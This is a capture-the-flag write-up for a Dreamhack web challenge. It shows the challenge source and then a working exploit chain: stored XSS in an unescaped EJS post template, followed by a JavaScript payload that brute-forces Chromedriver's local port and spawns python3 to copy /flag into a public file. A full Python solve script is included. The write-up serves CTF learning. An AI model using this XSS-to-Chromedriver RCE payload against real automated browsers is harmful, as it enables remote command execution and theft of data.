


## public board  



We are given a Node.js server that allows us to create and view posts.  

The Dockerfile shows that the flag file is stored in root, but it also installs a very specific Chromedriver image. This will come in handy later.  

```dockerfile
FROM node:20-bookworm

WORKDIR /app

COPY app/package.json app/package-lock.json app/bot-requirements.txt ./

RUN npm install --omit=dev

RUN apt-get update \
    && apt-get install -y --no-install-recommends \
        python3 \
        python3-venv \
        ca-certificates \
        wget \
        unzip \
    && wget -O /tmp/google-chrome-stable.deb https://mirror.cs.uchicago.edu/google-chrome/pool/main/g/google-chrome-stable/google-chrome-stable_141.0.7390.54-1_amd64.deb \
    && apt-get install -y /tmp/google-chrome-stable.deb \
    && rm -f /tmp/google-chrome-stable.deb \
    && wget -O /tmp/chromedriver.zip https://storage.googleapis.com/chrome-for-testing-public/141.0.7390.54/linux64/chromedriver-linux64.zip \
    && unzip /tmp/chromedriver.zip -d /tmp/chromedriver-unpack \
    && mv /tmp/chromedriver-unpack/chromedriver-linux64/chromedriver /usr/local/bin/chromedriver \
    && chmod +x /usr/local/bin/chromedriver \
    && rm -rf /tmp/chromedriver.zip /tmp/chromedriver-unpack \
    && ln -sf /usr/bin/python3 /usr/local/bin/python \
    && python3 -m venv /opt/bot-venv \
    && /opt/bot-venv/bin/pip install --no-cache-dir -r bot-requirements.txt \
    && rm -rf /var/lib/apt/lists/*

COPY app/ ./
COPY flag /flag

RUN chmod 444 /flag

ENV NODE_ENV=production
ENV PORT=3000
ENV TIMEOUT=60000
ENV DRIVER=/usr/local/bin/chromedriver
ENV CHROME=/usr/bin/google-chrome
ENV PYTHON=/opt/bot-venv/bin/python

EXPOSE 3000

CMD ["node", "server.js"]
```

We are allowed to create posts in a registered account, and there doesn't seem to be any content restrictions.  

```js
app.get("/write", needUser, (req, res) => {
  res.render(
    "write",
    view(req, {
      title: "Write",
    }),
  );
});

app.post("/write", needUser, (req, res) => {
  const title = String(req.body.title || "").trim();
  const content = String(req.body.content || "");

  if (!title || !content) {
    go(res, "/write", "Invalid input");
    return;
  }

  const post = {
    id: nextId++,
    title,
    content,
    author: req.user.username,
  };

  posts.push(post);
  res.redirect(`/posts/${post.id}`);
});

app.get("/posts/:id", (req, res) => {
  const id = Number.parseInt(req.params.id, 10);
  const post = posts.find((item) => item.id === id);

  if (!post) {
    res.status(404).render(
      "missing",
      view(req, {
        title: "Not Found",
      }),
    );
    return;
  }

  res.render(
    "post",
    view(req, {
      title: post.title,
      post,
    }),
  );
});
```

Posts are rendered in `post.ejs` without any escaping or sanitisation, giving us a clear XSS vector.  

```html
<%- include("partials/head", { title: title, user: user }) %>
<h1 class="page-title"><%= post.title %></h1>
<p class="page-subtitle">by <%= post.author %></p>
<%- include("partials/note", { note: note }) %>
<div class="post-body">
  <%- post.content %>
</div>
<%- include("partials/foot") %>
```

There is also a `/report` endpoint that allows us to report URLs under the `localhost:3000` origin, which will be visited with an admin bot.  

```js
const origins = (process.env.ORIGINS ||
  `http://localhost:${port},http://127.0.0.1:${port}`)
  .split(",")
  .map((value) => value.trim())
  .filter(Boolean);

...

function normalize(raw) {
  const parsed = new URL(raw);
  if (!origins.includes(parsed.origin)) {
    throw new Error("nope");
  }

  return `http://127.0.0.1:${port}${parsed.pathname}${parsed.search}${parsed.hash}`;
}

...

app.post("/report", needUser, (req, res) => {
  const raw = String(req.body.url || "").trim();

  try {
    const url = normalize(raw);
    void bot.enqueue(url);
    go(res, "/report", "Report queued");
  } catch (error) {
    go(res, "/report", error.message);
  }
});
```

On report, the server then executes a Python selenium bot that visits the supplied URL.  

However, we will notice that the admin bot doesn't include the flag anywhere, nor does the server reference it at any point. This hints that the chall goes beyond simple XSS, and we may need LFI or RCE to read the flag.  

```python
import os
import sys
import time

from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service


timeout = int(os.environ["TIMEOUT"])
chromedriver = os.environ["DRIVER"]
chrome = os.environ["CHROME"]


def options():
    opts = Options()
    opts.binary_location = chrome

    for argument in (
        "--headless=new",
        "--disable-gpu",
        "--disable-popup-blocking",
        "--window-size=1920x1080",
        "--no-sandbox",
        "--disable-dev-shm-usage",
        "--disable-background-networking",
    ):
        opts.add_argument(argument)

    return opts


def driver():
    service = Service(
        executable_path=chromedriver,
        port=0,
    )
    return webdriver.Chrome(service=service, options=options())


def visit(url):
    session = driver()

    try:
        session.get(url)
        time.sleep(timeout / 1000)
    finally:
        session.quit()


def main():
    if len(sys.argv) < 2:
        raise SystemExit("nope")

    visit(sys.argv[1])

if __name__ == "__main__":
    main()
```

If we do a bit of digging, we can find [this writeup](https://jorianwoltjer.com/blog/p/ctf/intigriti-xss-challenge/0625) that details an exploit technique which uses arbitrary JS execution to CSRF to Chromedriver's own control port to spawn arbitrary processes, thereby gaining RCE.  

The exploit requires a very specific version of Chromedriver, which explains why the Dockerfile from earlier went through so much trouble installing that specific Chromedriver image.  

If we visit the [official bug report](https://issuetracker.google.com/issues/40052697?pli=1), we will find a POC that achieves RCE by leveraging a pre-installed Python on the system.  



We can adapt from the POC to create our own payload which outputs the flag to a publicly exposed file on the Node.js server.  

An important thing to note is that we don't know the exact Chromedriver port, so we have to bruteforce it. To prevent the remote instance from crashing, we can bruteforce the port ranges in batches.  

```js
const options = {
    mode: "no-cors",
    method: "POST",
    headers: {  
        'Content-Type': 'text/plain'  
    },
    body: JSON.stringify({
        capabilities: {
        alwaysMatch: {
            "goog:chromeOptions": {
                binary: "/usr/bin/python3",
                    args: ["-cimport os; os.system('cat /flag > /app/public/leak.txt')"]
                }
            }
        }
    })
};

;(async () => {
    const batchSize = 200;
    
    for (let start = 32768; start < 61000; start += batchSize) {
        const batch = [];
        
        for (let port = start; port < Math.min(start + batchSize, 61000); port++) {
            batch.push(fetch(`http://127.0.0.1:${port}/session`, options).catch(() => {}))
        }
        
        await Promise.all(batch);
    }
})()
```
  
After creating a post with our payload and reporting it, we just have to wait a while before the flag gets exposed in `/static/leak.txt`.  

Below is my full solve script for this challenge.  

```python
import requests
import time
import re

url = 'http://host3.dreamhack.games:12751/'
s = requests.Session()

# login
creds = {
    'username': 'hacked',
    'password': 'hacked',
}

res = s.post(f'{url}/register', data=creds)
res = s.post(f'{url}/login', data=creds)

assert 'post list' in res.text.lower()
print("> Logged in")

# chromedriver rce
leak_file = 'leak.txt'
cmd = 'cat /flag'

payload = '''
<script>
    const options = {
        mode: "no-cors",
        method: "POST",
        headers: {  
            'Content-Type': 'text/plain'  
        },
        body: JSON.stringify({
            capabilities: {
            alwaysMatch: {
                "goog:chromeOptions": {
                    binary: "/usr/bin/python3",
                        args: ["-cimport os; os.system('%s > /app/public/%s')"]
                    }
                }
            }
        })
    };

    ;(async () => {
        const batchSize = 200;
        
        for (let start = 32768; start < 61000; start += batchSize) {
            const batch = [];
            
            for (let port = start; port < Math.min(start + batchSize, 61000); port++) {
                batch.push(fetch(`http://127.0.0.1:${port}/session`, options).catch(() => {}))
            }
            
            await Promise.all(batch);
        }
    })()
</script>
'''.strip() % (cmd, leak_file,)

res = s.post(f"{url}/write", data={
    'title': 'hacked',
    'content': payload
})

path = re.findall(r'(/posts/[0-9]+)', res.url)[0].strip()
path = f'http://localhost:3000{path}'

print("> Payload path:", path)

# report
res = s.post(f'{url}/report', data={
    'url': path
})

assert 'queued' in res.text.lower()
print("> Reported payload")

# get leak
print("> Waiting...")
time.sleep(10)

res = s.get(f'{url}/static/{leak_file}')

print("Flag:", res.text.strip())
```

Flag: `DH{12177c1211748c71a07f971f03c93457c00fd8e031df92871788341aeb4d234d}`